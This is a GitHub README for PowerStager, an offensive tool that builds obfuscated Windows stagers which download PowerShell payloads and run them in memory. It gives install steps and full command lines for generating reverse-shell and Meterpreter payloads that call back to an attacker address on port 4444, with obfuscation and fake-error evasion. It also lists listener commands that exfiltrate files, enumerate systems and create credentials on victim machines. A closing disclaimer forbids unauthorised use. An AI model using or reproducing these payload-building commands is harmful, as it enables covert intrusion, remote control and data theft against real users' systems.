 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

Demo
----
[![powerstager demo](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/Tfzr "powerstager demo - Click to Watch!")

How to use
----------

Prerequisites:

	python3
	python3-setuptools
	i686-w64-mingw32-gcc
	x86_64-w64-mingw32-gcc
	i686-w64-mingw32-windres
	x86_64-w64-mingw32-windres
	
Prerequisites (python3 modules):

	os
	sys
	getopt
	glob
	socket
	fcntl
	errno
	string
	re
	random
	base64
	datetime
	time
	hashlib
	readline
	signal
	urllib
	names

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a reverse shell payload to upload:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded reverse shell payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate a meterpreter payload to upload:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded meterpreter payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate an embedded custom payload:

	powerstager --target win64 \
	--path input.ps1
	--output out.exe

Open a reverse shell listener:

	powerstager --listener \
	--lport 4444

Reverse shell listener commands:
* Local-Invoke

  *Invokes powershell script files from host*

* Local-Import-Module

  *Imports powershell modules from host*

* Local-Set-Width

  *Changes the buffer width on remote client*

* Local-Upload

  *Uploads files from host*

* Local-Download

  *Downloads files from client*

* Local-Download-Commands

  *Downloads available powershell commands from client*

* Local-Enumerate-System

  *Runs enumeration scripts on client*

* Local-Check-Status

  *Collects user and privilage status from client*

* Local-Spawn-Meterpreter

  *Spawns meterpreter shells on client*

* Local-Spawn-Reverse-Shell

  *Spawns reverse shells on client*

* Local-Credential-Create

  *Creates credentials on client*

* Local-Credential-List

  *Lists created credentials on client*


## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
